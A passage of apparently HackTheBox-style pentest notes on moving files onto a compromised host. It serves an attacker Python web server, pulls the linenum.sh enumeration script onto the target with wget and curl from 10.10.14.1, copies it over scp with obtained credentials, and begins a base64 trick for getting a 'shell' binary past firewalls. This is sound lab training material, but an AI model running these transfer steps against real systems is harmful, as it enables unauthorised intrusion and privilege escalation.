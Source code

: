 # Wget / Curl

First start a python web server

```bash 
Mrwelldone$ cd /tmp
Mrwelldone$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```                                   


Then on the target machine:
```bash
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

[OR]

Curl

```bash
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

# SCP
Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```bash

Mrwelldone@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh

```


# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:

